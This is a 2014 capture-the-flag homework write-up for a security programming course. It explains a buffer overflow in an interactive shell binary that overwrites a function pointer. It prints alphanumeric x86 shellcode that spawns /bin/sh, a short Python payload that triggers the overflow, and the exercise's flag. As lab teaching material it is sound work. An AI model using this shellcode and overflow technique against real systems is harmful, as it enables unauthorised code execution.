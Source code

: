 ===============
 nphw1 Writeup
===============

:date: 2014-11-12 21:30
:modified: 2014-11-14 02:30
:tags: secprog, ctf, writeup
:category: memo
:slug: nphw1-writeup
:about_author: Bug generator
:email: starbops@gmail.com
:authors: Zespre Schmidt
:summary: Security Programming Homework 2-1

Intelligence Gathering
======================

- There is a vulnerability in piece of code which contains ``strtok()``
- There is a ``call eax`` in the binary
- Because it is an interactive shell program, bad characters are 0x00, 0x0a,
  0x2f (filter out by specific function in the program)

De-complie the binary
=====================

It is hard to debug using gdb. A possible method is to use gdbserver to do
remote debugging. But sadly, I do not have time to learn how to use it. Maybe
next time...

So I turned up using IDA Pro to do the static analysis. By decompilation,
bunch of functions showed up:

.. code-block:: text

    ...
    frame_dummy
    passCmdline
    splitCmdline
    parseArgv
    printEnv
    setEnv
    getResult
    sendResult
    closePipes
    exeCmd
    nextLine
    main
    passPipe
    addPipe
    delPipe
    ...

By doing some observation, I picked up three interesting functions for deeper
inspection: ``main``, ``passCmdline``, ``splitCmdline``, ``exeCmd``.

+-------------------+---------------------------------------+
| Offset of cmdline | Meaning                               |
+===================+=======================================+
| 0                 | pointer of whole command line         |
+-------------------+---------------------------------------+
| 1 - 10000         | pointer of each word                  |
+-------------------+---------------------------------------+
| 10001             | number of words in whole command line |
+-------------------+---------------------------------------+
| 10002 - 11001     | single command, seperated by '|'      |
+-------------------+---------------------------------------+
| 11002             | argc                                  |
+-------------------+---------------------------------------+
| 11003             | not important                         |
+-------------------+---------------------------------------+
| 11004             | stdout                                |
+-------------------+---------------------------------------+
| 11005             | pointer of function printEnv()        |
+-------------------+---------------------------------------+
| 11006             | pointer of string "printenv"          |
+-------------------+---------------------------------------+
| 11007             | pointer of function setEnv()          |
+-------------------+---------------------------------------+

Since the program uses function pointer to call printEnv(), we can simply put
our shellcode to replace the original printEnv() with the aid of buffer
overflow.

According to the table above, stack overflow will happen when we type more than
1000 words in one single command (commands are seperated by '|'). To overwrite
index 11005 with our shellcode, we need to stuff 1003 words in total.

The 1005th word will overwrite the pointer of the string "printenv", which used
to compared to the very first word. When they are equal, the program will run
into printEnv(). So our job is to ensure they will be the same, otherwise it
won't call our shellcode.

Shellcode
=========

The shellcode for execute ``/bin/sh`` is showed following, grab from the
Internet. See the references at the end of this article for more information.

.. code-block:: text

    PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx

Exploitation
============

The first word should be the same as the last word, and the shellcode should be
 1004th word. That's all!

.. code-block:: python

    payload = 'a ' * 1003
    payload += 'PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx '
    payload += 'a'

Don't forget to append a new line character to fire our payload!

Flag
====

The flag is ``SECPROG{N3tw0rk_Pr0gr4mm1ng_h0m3w0rk_1s_e4s1er}``

References
==========

- `Linux x86 Shellcoding 101 – Objective: Topics introduction and exit(69) shellcode`__
- `x86 alphanumeric shellcodeを書いてみる`__

.. __: http://0xcd80.wordpress.com/2011/04/16/linux-x86-shellcoding-101/
.. __: http://inaz2.hatenablog.com/entry/2014/07/11/004655

